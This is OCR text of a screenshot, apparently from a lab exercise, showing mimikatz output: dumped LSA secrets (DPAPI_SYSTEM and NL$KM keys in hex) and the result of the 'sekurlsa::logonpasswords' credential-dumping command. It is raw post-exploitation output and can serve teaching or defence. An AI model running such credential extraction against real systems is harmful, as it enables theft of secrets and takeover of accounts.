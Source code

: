 Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 34 5e 65 80 f9 04 a4 8c a5 0e 6c 74 6c d2 c3 b8 8e 7a ca c3 a3 3b 0e 6e 0a 64 f3 12 fc c7 92 67 a3 2f d5 d1 e4 41 33 ac 
    full: 345e6580f904a48ca50e6c746cd2c3b88e7acac3a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
    m/u : 345e6580f904a48ca50e6c746cd2c3b88e7acac3 / a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
old/hex : 01 00 00 00 c1 3a 28 e3 94 7b 64 5d 94 29 b4 c9 1c 9b 0c b1 b6 5a aa 2c 34 4d ee ed 86 74 0f 12 25 37 8c 38 69 b3 b4 53 b6 37 86 44 
    full: c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c344deeed86740f1225378c3869b3b453b6378644
    m/u : c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c / 344deeed86740f1225378c3869b3b453b6378644

Secret  : NL$KM
cur/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 
old/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 

mimikatz # 






mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2309300 (00000000:00233cb4)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/2/2024 9:37:02 AM
SID               : S-1-5-90-0-3
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 2306353 (00000000:00233131)
Session           : Interactive from 3
User Name         : UMFD-3
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/2/2024 9:37:02 AM
SID               : S-1-5-96-0-3
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	
